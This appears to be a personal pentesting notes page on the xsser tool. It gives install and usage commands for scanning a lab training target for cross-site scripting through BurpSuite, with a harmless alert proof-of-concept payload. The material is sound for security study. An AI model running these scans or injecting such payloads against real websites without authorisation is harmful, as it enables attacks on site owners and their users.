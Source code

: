 ```yaml
---
title: xsser
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, web pentesting
---
```


## Installation

```bash
sudo apt install xsser
```

## Usage 

The following commands are used in combination with BurpSuite:

```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'

xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto

xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
```

With this, the encoded XSS payload is generated. Now, in Burp Suite, replace the POST parameters with the final attack payload and forward the request.

